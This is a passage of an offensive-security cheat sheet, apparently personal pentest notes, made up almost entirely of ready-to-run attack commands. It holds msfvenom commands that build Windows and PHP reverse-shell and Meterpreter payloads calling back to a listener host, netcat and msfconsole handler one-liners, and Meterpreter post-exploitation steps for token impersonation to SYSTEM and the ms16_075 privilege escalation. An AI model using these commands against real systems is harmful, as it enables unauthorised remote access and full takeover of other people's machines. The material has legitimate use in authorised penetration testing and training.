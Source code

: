 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port55.exe

nc -nvlp 53
```
- windows shell 32bit
```
msfvenom -p windows/shell/reverse_tcp --platform windows -a x86 LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port53.exe

nc -nvlp 53
```

```
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port53.exe

nc -nvlp 53
```
- php
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.109 LPORT=53 -f raw -o exploit_port53.php

msfconsole -q -x 'use exploit/multi/handler;set payload php/meterpreter/reverse_tcp;set LHOST 192.168.56.109;set LPORT 53;run'
```

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.109 LPORT=53 -f raw -o exploit_port53.php

msfconsole -q -x 'use exploit/multi/handler;set payload php/meterpreter_reverse_tcp;set LHOST 192.168.56.109;set LPORT 53;run'
```
- Upgrade our shell to metasploitable and if you are in normal shell of cmd then Control+Z
```
use post/multi/manage/shell_to_meterpreter
```
## Basic Commands(msfconsole)
- Check user
```
getuid
```
- Check os
```
sysinfo
```
- Checking ip
```
ipconfig /ifconfig
```
- Check for privileges(whoami /all)
```
getprivs
```
- Search files
```
search -f pagefile.sys
```
- let say SeImpersonatePrivilege exist
```
use incognito
list_tokens -u
impersonate_token TOKEN(eg-> "NT AUTHORITY\\SYSTEM")
```
- if assignprivilige and impersonate exist then
```
use exploit/windows/local/ms16_075_reflection_juicy
```